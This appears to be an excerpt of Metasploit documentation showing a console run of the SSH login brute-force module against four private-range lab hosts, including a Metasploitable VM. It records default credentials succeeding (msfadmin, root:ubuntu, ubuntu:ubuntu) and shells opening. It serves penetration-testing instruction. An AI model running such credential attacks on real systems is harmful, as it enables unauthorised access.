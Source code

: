 192.168.2.156
192.168.2.137
192.168.2.35
192.168.2.46
msf auxiliary(ssh_login) > set rhosts file:/root/ssh_hosts.lst
rhosts => file:/root/ssh_hosts.lst
msf auxiliary(ssh_login) > set verbose false
verbose => false
msf auxiliary(ssh_login) > set threads 4
threads => 4
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] Command shell session 5 opened (192.168.2.117:44415 -> 192.168.2.46:22) at 2017-02-22 20:26:13 -0500
[*] Command shell session 6 opened (192.168.2.117:36107 -> 192.168.2.35:22) at 2017-02-22 20:26:13 -0500
[+] SSH - Success: 'root:ubuntu' 'uid=0(root) gid=0(root) groups=0(root) Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 7 opened (192.168.2.117:32829 -> 192.168.2.156:22) at 2017-02-22 20:26:35 -0500
[+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 8 opened (192.168.2.117:42205 -> 192.168.2.156:22) at 2017-02-22 20:26:42 -0500
[+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 9 opened (192.168.2.117:37027 -> 192.168.2.137:22) at 2017-02-22 20:26:44 -0500
[*] Scanned 3 of 4 hosts (75% complete)
[*] Scanned 4 of 4 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions -l

Active sessions
===============

  Id  Type          Information                              Connection
  --  ----          -----------                              ----------
  5   shell /linux  SSH msfadmin:msfadmin (192.168.2.46:22)  192.168.2.117:44415 -> 192.168.2.46:22 (192.168.2.46)
  6   shell /linux  SSH msfadmin:msfadmin (192.168.2.35:22)  192.168.2.117:36107 -> 192.168.2.35:22 (192.168.2.35)
  7   shell /linux  SSH root:ubuntu (192.168.2.156:22)       192.168.2.117:32829 -> 192.168.2.156:22 (192.168.2.156)
  8   shell /linux  SSH ubuntu:ubuntu (192.168.2.156:22)     192.168.2.117:42205 -> 192.168.2.156:22 (192.168.2.156)
  9   shell /linux  SSH ubuntu:ubuntu (192.168.2.137:22)     192.168.2.117:37027 -> 192.168.2.137:22 (192.168.2.137)
```

  Example run against:
```